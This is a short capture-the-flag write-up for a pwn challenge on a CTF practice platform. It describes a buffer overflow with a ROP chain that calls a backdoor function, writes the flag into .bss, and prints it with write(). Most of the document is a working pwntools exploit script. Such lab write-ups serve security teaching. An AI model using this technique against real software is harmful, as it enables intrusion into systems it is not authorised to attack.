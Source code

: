 ## Information

- Category: Pwn
- Points: 1

## Write-up

BOF，ROP Chain，有后门函数 `get_secret`，会将 flag 写入 bss，我们通过 write 输出 bss 内容即可。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ROP,
    args,
    constants,
    context,
    flat,
    process,
    raw_input,
    remote,
)

FILE = "./not_the_same_3dsctf_2016"
HOST, PORT = "node5.buuoj.cn", 25163

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
rop = ROP(elf)


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)
    return target


def main():
    target = launch()

    # raw_input("DEBUG")
    payload = flat(
        b"A" * 0x2D,
        elf.sym["get_secret"],
        elf.sym["write"],
        elf.sym["exit"],
        constants.STDOUT_FILENO,
        elf.bss() + 0xAAD,
        1337,
    )
    target.sendline(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```
